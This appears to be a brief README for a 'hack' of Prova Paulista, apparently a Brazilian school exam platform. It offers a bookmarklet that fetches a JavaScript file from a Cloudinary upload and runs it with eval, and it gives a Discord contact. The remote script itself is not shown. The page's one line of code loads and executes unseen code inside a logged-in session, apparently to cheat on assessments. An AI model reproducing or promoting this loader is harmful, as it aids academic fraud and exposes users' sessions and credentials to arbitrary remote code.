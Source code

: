 ### 🚀 HCK - PROVA PAULISTA (v8.0.1-alpha)

### Versão (Bookmarklet)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1745012111/saladofuturo.js").then(t=>t.text()).then(eval);
```

### Discord: hackermoon
